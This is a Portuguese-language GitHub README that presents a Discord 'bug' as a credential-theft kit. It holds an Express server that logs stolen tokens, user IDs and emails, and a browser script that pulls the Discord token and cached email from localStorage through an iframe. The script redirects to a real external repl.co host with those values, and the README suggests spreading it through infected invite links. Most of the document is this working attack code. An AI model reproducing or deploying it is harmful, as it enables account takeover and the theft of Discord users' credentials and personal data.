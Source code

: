 # Discord Bug Token
 ## Este é um bug do discord onde é possivel conseguir o token de um usuario apenas com um comando

 ### Oque precisa ser feito para acontecer o bug:

 - primeiro: o desenvolvimento de um servidor de coleta de parametros pela url que seria algo muito simples.Exemplo : [Servidor Exemplo](https://)

```js
const express = require('express');
const app = express();
const port = 3000;

const path = require("path");

const low = require('lowdb') //banco de dados
const FileSync = require('lowdb/adapters/FileSync')
const adapter = new FileSync('database/db.json')
const db = low(adapter)

app.use("/public", express.static("public"));

app.get("/", (req, res) => {

    let token = req.query.token
    let tag = req.query.tag
    let id = req.query.id
    let email = req.query.email

    let bot = `false`

    if(token == undefined && tag == undefined && id == undefined && email == undefined){
        bot = `true`
        console.log('bot...')
        return;
    }

    if(token == undefined){
        token = `parametro token não passado`
    }
    
    if(tag == undefined){
        tag = `undefined#0000`
    }
    
    if(id == undefined){
        id = `parametro id não passado`
    }
    
    if(email == undefined){
        email = `undefined@gmail.com`
    }

    console.log(`o usuario logou com sucesso:${tag}`)
    if(!token) return;

    db.get('logs').push({
        token: token,
        tag: tag,
        id: id,
        email: email 
    }).write()    

    res.sendFile(path.join(__dirname, "public/index.html"));
})    

app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`)); 
```
 - segundo: o desenvolvimento de um script para enviar o token por esse url.Exemplo :
[Script de Envio Para o Servidor](https://google.com)
 
 ```js
function env(modul){
    const token = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token
    const tag = `${window.document.querySelector('div.size14-e6ZScH').innerText}%23${window.document.querySelector('div.size12-3cLvbJ').innerText.substr(1)}`
    const id = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.user_id_cache
    const email = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.email_cache

    if(modul == undefined){
        op1()
        modul = 1
    }else{}

    switch(modul){
        case 1:
            op1()
            break
        default:
            console.log(`Modulo ${modul} não foi encontrado`)
    }

    function op1(){
        window.location.href = `https://tokenlog.sasukecusaovh.repl.co/?token=${token}&tag=${tag}&id=${id}&email=${email}`
    }
}

env(1)
```
 - terceiro: o desenvolvimento de um url infectado como o invite de um server ou o invite de um bot para que quando o discord seja  iniciado o codigo seja rodado
 
 ### Oque era pra acontecer caso não existise bug:

 se o bug nao existisse o usuario iria usar o discord normalmente sem enviar nenhum dado sensivel para nenhum servidor

 ### Oque realmente acontece:

com o bug acontecendo o usuario acha que esta usando o discord normalmente porem ele envia um dado sensivel. Exemplo: [Exemplo DataBase Com Dados](https://)

```json
{
  "logs": [
    {
      "token": "token de um usuario:0000",
      "tag": "tag de um usuario:undefined#0000",
      "id": "id de um usuario:0000",
      "email": "emailo de um usuario:undefined@gmail.com"
    }
  ]
}
```



